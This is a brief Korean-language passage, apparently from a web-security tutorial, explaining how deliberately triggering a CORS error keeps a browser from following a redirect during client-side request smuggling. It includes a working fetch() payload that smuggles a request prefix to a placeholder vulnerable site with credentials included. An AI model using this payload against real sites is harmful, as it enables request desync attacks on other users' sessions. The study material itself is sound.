 만약 서버가 리다이렉트를 응답한다면 스머글링을 시킬 수 없기 때문에 일부러 CORS 에러를 유도해서 브라우저가 리다이렉트에 따르지 않도록 만드는 테크닉을 사용한다. 일부러 CORS 에러를 발생시켜야 하기 때문에 `cors`모드를 사용해서 `catch()`함수와 결합해서 사용한다. 다음과 같다.  

```html
<script>
fetch('https://vulnerable-website.com/redirect-me', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors',
    credentials: 'include'
}).catch(() => {
    location = 'https://vulnerable-website.com/'
})
</script>
```